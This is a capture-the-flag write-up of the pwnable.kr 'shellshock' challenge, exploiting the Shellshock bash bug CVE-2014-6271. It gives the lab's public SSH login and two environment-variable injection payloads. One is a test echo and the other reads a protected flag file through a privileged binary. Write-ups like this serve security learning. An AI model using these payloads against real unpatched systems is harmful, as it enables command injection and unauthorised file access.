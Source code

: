 # pwnable.kr -- Toddler's Bottle -- shellshock
An application of CVE-2014-6271.

## 1. Challenge
  > Mommy, there was a shocking news about bash.  
  > I bet you already know, but lets just make it sure :)  
  >   
  >   
  > ssh shellshock@pwnable.kr -p2222 (pw:guest)  

## 2. Solution
  * Connect via SSH.

  * In current directory, it provides a `bash` that has CVE-2014-6271 exploit.

  * We can test it by typing:

    ```bash
    $ env x='() { :;}; echo fuckfuck' ./bash -c "echo haha"
    ```

    And we can find that both `"fuckfuck"` and `"haha"` are typed out.

  * Review the source code of the binary file `shellshock`, which is in file `shellshock.c`.

    We can find that `shellshock` has right to read `flag` and it will launch the exploitable `bash`.

  * So, just type:

    ```bash
    $ env x='() { :;}; /bin/cat flag' ./shellshock
    ```

    Then you will see the flag.
